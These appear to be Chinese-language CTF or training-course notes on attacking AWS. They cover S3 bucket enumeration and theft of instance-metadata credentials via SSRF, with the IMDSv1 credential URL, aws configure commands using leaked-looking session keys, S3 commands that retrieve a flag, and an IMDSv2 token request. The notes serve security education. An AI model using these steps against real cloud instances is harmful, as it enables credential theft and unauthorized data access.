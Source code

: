 https://buckets.grayhatwarfare.com/

- 如何列舉目標的 S3
    - 使用字典檔
- 如何生成字典檔
    - 手動產生
        - 公司名稱
        - 參考實際名稱
        - 
    - 自動產生
- Bucket Name有唯一性
- 網址格式
    - [bucket:name].s3.地區.amazonaws.com
        > 通常地區可以省略，但有些不行
    - 地區.s3.amazonaws.com/[bucket name]
- 範例網址
    - ais3-public-bucket.s3.us.east
- 地區列表(aws官方有)
- 自訂網域
    - 使用 img.ais3.org 而不是 ais3.s3.amazonaws.com
- 對應方法
    - img.ais3.org 地區

### Metadata 利用
#### STS 臨時憑證

~/.aws/credential

列舉 policy

#### 取得 metadata
- Get Shell直接拿
- command injection- 
- SSRF

#### SSRF

- IMDSv1
    - request/response
        - http://169.254.169.254/latest/meta-data/iam/security-credentials/

```
aws configure set aws_access_key_id ASIAXTN2BMI6HUQSRU46
aws configure set aws_secret_access_key VcsxxgwAqihJyhLdIN2tFhCXQqzw0Io7Ft8yhv9j
aws configure set aws_session_token "...<SNIP>..."

aws s3 ls 
aws s3 ls s3://ais3-husky/
aws s3 cp s3://ais3-husky/SSRF_1.txt ./
cat SSRF_1.txt # FLAG{IMDSv1_is_insecure!}
```

- IMDSv2
    - 構造 put
    - 加 header
    - gopher
        - `curl -X PUT http://127.0.0.1/latest/api/token --header "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
